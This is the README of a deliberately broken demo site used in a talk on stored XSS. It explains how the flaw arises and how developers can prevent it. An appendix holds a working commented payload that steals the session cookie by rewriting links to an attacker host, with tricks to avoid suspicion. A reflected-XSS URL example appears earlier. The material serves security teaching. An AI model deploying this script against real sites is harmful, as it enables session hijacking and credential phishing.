 # xss-demo-aug-2019
A (deliberately!) broken site to demonstrate the power of XSS exploitation.

# Stored XSS vulnerabilities
## Presentation structure
1. Definition of stored and reflected XSS attacks
1. Demo of XSS in a web app
1. Explanation of how XSS happened in the demo
1. Steps developers can take to protect against XSS
1. Wider implications and dangers of XSS

## Definition of XSS
### Reflected
Reflected XSS occurs when an attacker crafts a URL containing a parameter or path that will be displayed in a target browser. The attacker usually tricks a target user into clicking on this malicious URL, and can then gain access to the user's browser through a script within the URL. and example of this could be the URL:

`https://www.example.com?search=<script>alert("boo!");</script>cat%20pictures`
### Stored
Stored XSS happens when an attacker can directly upload HTML to a site through a user input field whose contents will be displayed elsewhere on the site, such as a username field. If the input is not escaped by the server, there is a risk it will be rendered as HTML, which means outside scripts can be injected into the page.

_This demo focuses solely on stored XSS attacks_

## Demonstration
The demo app has three fields (of which one has been left vulnerable) where users can input information which will be displayed elsewhere on the site:
- Username
- Post titles
- Post bodies

## How XSS happened in the demo app
Generally speaking, the cause of stored XSS is failure to escape user input. In the case of this app, two lines of code were responsible for the vulnerability:
1. Neglecting to user the `xss` node module to sanitise the input: [/routes/index.js#L59](https://github.com/phoebe-bee/xss-demo-aug-2019/blob/a47b1d299013536888f4b850ea5b667f36c89798/routes/index.js#L59)
1. Using the wrong number of braces in the handlebars template, causing the template to render the variable without escaping the value: [/views/forum_dashboard.hbs#L18](https://github.com/phoebe-bee/xss-demo-aug-2019/blob/a47b1d299013536888f4b850ea5b667f36c89798/views/forum_dashboard.hbs#L18)

## How developers can protect against XSS
As the above section would suggest, the way to avoid XSS is to ensure all user input is escaped before it reaches the browser so there is no possibility it will be rendered as HTML. However in practice this can be easier said than done, particularly in a complex web app.

Developers can introduce coding standards such as prefixing their variable names with whether they are safe or unsafe, (example detailed in this article ["Making wrong code look wrong"](https://www.joelonsoftware.com/2005/05/11/making-wrong-code-look-wrong/)) to reduce the likelihood that unescaped text will make it to the browser. Good code review practices can help maintain these coding standards, too.

There is also the standard solution of not trying to roll your own security: if you can rely on trusted frameworks which you keep up to date, you can mitigate some amount of risk. For example: the templating engine I used to make this site is hard to slip XSS by, as the default behaviour is to always escape values it is asked to display.

## Wider implications and dangers of XSS
When a potential XSS vulnerability is found during a pentest, we tend to add a simple script such as `alert(1);`. The truth is, though, that some incredibly malicious code can be contained within the script tags.

Any information viewable by the browser, such as session and CSRF protection tokens, are accessible any script running on the page. This means if an attacker can inject their own script into the page, they will be able to steal sessions and perform actions masquerading as legitimate users. All user accountability goes out of the window - how can you know if it really is an admin going rogue and deleting half the site, or if they went to an infected page and had their session stolen?

I would argue that even data which is supposed to be inaccessible to the browser, such as passwords, is retrievable with the right script. A version of the annotated script below changes the hyperlinks on a page to send people to the site of an attacker's choice... for example, a phishing site made to look like an 'oops, please log back in page' from the original site.

It's bad enough when you consider that a phishing attack could hand user credentials over to malicious actors, but when taken into account how many people re-use passwords between accounts, it's horrifying how much damage could be done with this relatively simple script.

## Appendix: Commented phishing script from demo

```html
<script type = "text/javascript">
$(document).ready(function () {
  function getCookie(n) {
    // returns the value of a named cookie
    var name = n + "=";
    var decodedCookie = decodeURIComponent(document.cookie);
    var ca = decodedCookie.split(";");
    for (var i = 0; i < ca.length; i++) {
      var c = ca[i];
      while (c.charAt(0) == " ") {
        c = c.substring(1);
      }
      if (c.indexOf(name) == 0) {
        return c.substring(name.length, c.length);
      }
    }
    return "";
  }

  function setCookie() {
    // Make a new cookie called 'h' (for 'harvested') which pulls the first,
    // middle and last chars from the session ID
    // This will be used to check if the session ID has been updated and needs
    // to be stored
    // using 3 check chars is less suspicious than storing the entire session ID
    var sid = getCookie("connect.sid");
    document.cookie = "h="+ sid.charAt(0) + sid.charAt(sid.length - 1) +
    sid.charAt((sid.length -1)/2) + ";expires=session;path=/";
  }

  function isNewSession() {
    // Check the value of 'h' against the current session ID
    var sid = getCookie("connect.sid");
    var h = getCookie("h");
    if (h === sid.charAt(0) + sid.charAt(sid.length - 1) + sid.charAt((sid.length -1)/2)) {
      return false;
    } else {
      return true;
    }
  }

  var current_page_path = window.location.pathname;
  // If the session ID is one we've seen before, don't replace the hyperlinks.
  // That way the redirect to the 'login' page looks like a one-off error to
  // the user, and we don't collect the same session ID more than
  if (!current_page_path.includes("/post") && isNewSession()) {
    // Only run the script on the forum home page, leave individual post pages alone
    $("td > a").each(function(i) {
      console.log(document.cookie);
      var original_path = $(this).attr("href");
      // Replace all links in the table of posts with links to the phishing site
      // Pass along the ID of the post the user was trying to see (so we can
      // direct them back to it after 'logging them back in') and the session
      // ID so we can steal sessions if the mood takes us mwahaha
      // the session_id is named error_id in the GET request so that if a user
      // notices the token in the URL it's not so obvious what we're stealing
      var new_href = "http://127.0.0.1:1337" + original_path + "&error_id=" +
                     getCookie("connect.sid");
      $(this).prop("href", new_href);
    });
    setCookie();
  }
});
// Don't forget to add a normal-looking title so people don't get suspicious!
</script>Important announcement```
